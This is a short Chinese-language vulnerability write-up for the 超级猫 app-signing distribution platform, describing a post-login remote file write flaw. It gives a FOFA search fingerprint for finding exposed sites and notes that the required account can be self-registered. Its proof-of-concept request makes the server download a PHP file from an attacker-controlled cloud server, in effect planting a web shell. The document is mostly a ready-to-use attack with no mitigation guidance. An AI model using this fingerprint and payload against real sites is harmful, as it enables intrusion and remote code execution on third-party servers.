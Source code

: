 # 超级猫签名APP分发平台前台远程文件写入漏洞

超级猫超级签名分发平台是一个安卓苹果APP分发平台，能够对所有安卓苹果的APP进行签名分发，使所有自行开发的APP能够签名使用，包括登录注册等功能，还提供有SDK

## fofa

```java
"/themes/97013266/public/static/css/pc.css"
```

## poc

**注意这里需要先登录，这处可以直接注册的**

![image-20240727120206313](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202407271202404.png)

```java
/user/profile/download?url=http://云服务器地址/111.php&path=1
```

![image-20240727120241835](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202407271202922.png)

## 漏洞来源

- https://mp.weixin.qq.com/s/xTcnm_fFubFCYw4LhIXwkQ